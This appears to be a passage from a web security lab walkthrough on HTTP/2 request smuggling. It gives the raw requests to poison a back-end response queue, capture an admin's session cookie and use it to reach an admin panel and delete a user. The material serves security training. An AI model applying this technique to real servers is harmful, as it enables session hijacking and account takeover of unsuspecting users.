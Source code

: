 1. Using Burp Repeater, try smuggling an arbitrary prefix in the body of an HTTP/2 request using chunked encoding as follows. Remember to expand the Inspector's **Request Attributes** section and change the protocol to HTTP/2 before sending the request.

    ```
    POST / HTTP/2
    Host: YOUR-LAB-ID.web-security-academy.net
    Transfer-Encoding: chunked

    0

    SMUGGLED
    ```

2. Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.
3. In Burp Repeater, create the following request, which smuggles a complete request to the back-end server. Note that the path in both requests points to a non-existent endpoint. This means that your request will always get a 404 response. Once you have poisoned the response queue, this will make it easier to recognize any other users' responses that you have successfully captured.

    ```
    POST /x HTTP/2
    Host: YOUR-LAB-ID.web-security-academy.net
    Transfer-Encoding: chunked

    0

    GET /x HTTP/1.1
    Host: YOUR-LAB-ID.web-security-academy.net
    ```

4. Send the request to poison the response queue. You will receive the 404 response to your own request.
5. Wait for around 5 seconds, then send the request again to fetch an arbitrary response. Most of the time, you will receive your own 404 response. Any other response code indicates that you have successfully captured a response intended for the admin user. Repeat this process until you capture a 302 response containing the admin's new post-login session cookie.

    *Note*
    *If you receive some 200 responses but can't capture a 302 response even after a lot of attempts, send 10 ordinary requests to reset the connection and try again.*

6. Copy the session cookie and use it to send the following request:

    ```
    GET /admin HTTP/2
    Host: YOUR-LAB-ID.web-security-academy.net
    Cookie: session=STOLEN-SESSION-COOKIE
    ```
7. Send the request repeatedly until you receive a 200 response containing the admin panel.
8. In the response, find the URL for deleting Carlos (*/admin/delete?username=carlos*), then update the path in your request accordingly. Send the request to delete Carlos and solve the lab.

## Request smuggling via CRLF injection
